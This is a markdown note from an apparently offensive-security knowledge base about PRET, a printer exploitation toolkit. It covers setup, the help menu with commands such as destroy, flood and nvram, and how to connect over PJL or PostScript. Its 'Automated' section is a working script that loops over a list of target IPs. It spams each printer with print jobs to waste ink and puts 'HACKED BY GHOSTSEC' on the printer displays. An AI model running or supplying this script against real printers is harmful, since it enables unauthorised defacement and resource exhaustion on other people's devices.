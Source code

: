 # PRET

## 01 - Setup

### 1.1 - Dependencies

```
$ sudo apt install -y python3-colorama python3-pysnmp4 imagemagick ghostscript
```

### 1.2 - Install PRET

```
$ git clone https://github.com/RUB-NDS/PRET
```

## 02 - Help Menu

```
$ ./pret.py <printer_target_IP> pjl

<printer_target_IP>:/> help

Available commands (type help <topic>):
=======================================
append  delete    edit    free  info    mkdir      printenv  set        unlock
cat     destroy   env     fuzz  load    nvram      put       site       version
cd      df        exit    get   lock    offline    pwd       status
chvol   disable   find    help  loop    open       reset     timeout
close   discover  flood   hold  ls      pagecount  restart   touch
debug   display   format  id    mirror  print      selftest  traversal
```

## 03 - Usage

In this case we are connecting to the printer that is a PostScript printer language.

```
$ ./pret.py <IP> ps
```

Lastly you can connect to local USB printers.

```
$ ./pret.py /dev/usb/lp0 pjl
```

### 3.1 - Automated

A short script to keep spamming by printing files to waste the inks.

```bash
#!/bin/bash

ips="${1}"
filename="${2}"

while read -r line
do
    ip="${line}"
    ./pret.py ${ip} pjl -q -i "${filename}"
done < "${ips}"
```

```
$ cat > pret_commands.txt << EOF
print ./message-by-ghostsec.txt
display "HACKED BY GHOSTSEC"
quit
EOF

$ chmod +x spam_print.sh

$ ./spam_print.sh ip_targets.txt pret_commands.txt
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/A - Information Gathering/0x02 - Active Fingerprinting/Network Ports/Internet of Things/Printers|Active Fingerprinting: Printers]]

### Github

- [PRET](https://github.com/RUB-NDS/PRET)